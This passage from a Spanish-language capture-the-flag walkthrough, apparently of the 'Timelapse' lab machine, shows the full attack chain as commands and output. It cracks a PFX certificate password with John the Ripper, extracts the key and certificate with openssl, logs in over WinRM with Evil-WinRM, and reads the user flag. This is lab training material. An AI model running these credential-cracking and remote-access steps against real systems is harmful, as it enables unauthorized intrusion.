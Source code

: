 ```bash
❯ pfx2john legacyy_dev_auth.pfx > hash_pfx
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_pfx
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:42 DONE (2023-07-26 23:25) 0.02375g/s 76781p/s 76781c/s 76781C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Una vez descifrada la contraseña, extraemos el certificado `SSL` y la clave privada del archivo `PFX` usando los siguientes comandos.

```bash
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
Enter Import Password:
❯ openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
Enter Import Password:
```

Una vez que hemos desencriptado el archivo `PFX` y generado un certificado y clave válidos, podemos intentar iniciar sesión a través de `WinRM`. En la salida de nuestro comando `Nmap`, podemos ver que el puerto 5986 está abierto, el cual se utiliza comúnmente por `WinRM` con conexiones `SSL` encriptadas. Dado que `Evil-WinRM` nos permite pasar una clave y un certificado utilizando las opciones `-c` y `-k`, podemos utilizarlos para autenticarnos en el objetivo.

```bash
❯ evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Warning: SSL enabled
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\legacyy\Documents> whoami
timelapse\legacyy
```

Una vez conectados como usuario `legacyy`, procedemos a obtener la user flag en la ruta `C:\Users\legacyy\Desktop`.

```bash
*Evil-WinRM* PS C:\Users\legacyy\Desktop> dir

    Directory: C:\Users\legacyy\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/27/2023   7:46 AM             34 user.txt

*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
f4ccb23a73f74b0f****************
```
